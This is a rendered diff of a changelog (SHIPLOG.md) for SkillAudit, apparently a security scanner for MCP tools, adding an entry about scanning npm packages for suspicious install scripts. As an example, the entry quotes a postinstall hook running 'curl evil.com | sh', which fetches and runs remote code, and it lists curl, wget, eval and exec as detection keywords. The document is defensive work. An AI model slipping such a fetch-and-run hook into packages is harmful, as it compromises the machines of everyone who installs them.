

Before and after one commit to megamind-0x/skillaudit, a Markdown page: SHIPLOG.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: update SHIPLOG with npm scanner

```diff
--- a/SHIPLOG.md
+++ b/SHIPLOG.md
@@ -1,4 +1,15 @@
 # SHIPLOG — SkillAudit Shipping Log
+
+## 2026-02-18 (1:00 AM) — NPM Package Scanner
+**What:** `GET /scan/npm?package=@scope/name` — scan any npm package by name. Also available as `skillaudit_npm` MCP tool.
+**How it works:**
+- Fetches latest version metadata from npm registry
+- Pulls README.md, package.json, main entry point, bin scripts, and skill files (SKILL.md, mcp.json) from unpkg CDN
+- Scans ALL fetched files with the full SkillAudit engine
+- Detects suspicious install scripts (preinstall/postinstall with curl/wget/eval/exec)
+- Returns combined risk assessment across all files
+- Works with scoped (@org/pkg) and unscoped packages
+**Why:** MCP tools are distributed as npm packages. Before this, you had to know the exact URL of a skill file to scan it. Now agents (and humans) can just pass a package name: `/scan/npm?package=@modelcontextprotocol/server-filesystem`. That's how security scanners work in the real world — `npm audit` scans by package name, not by URL. This makes SkillAudit match how tools are actually distributed in the MCP ecosystem. Plus, the install script detection catches supply chain attacks that file-level scanning misses — a clean README means nothing if `postinstall` runs `curl evil.com | sh`.
 
 ## 2026-02-17 (10:00 PM) — MCP Server (Model Context Protocol Native Integration)
 **What:** SkillAudit is now an MCP server. Any MCP-compatible agent can use SkillAudit as a native tool — no HTTP, no API keys, just `npx skillaudit --mcp`.
```
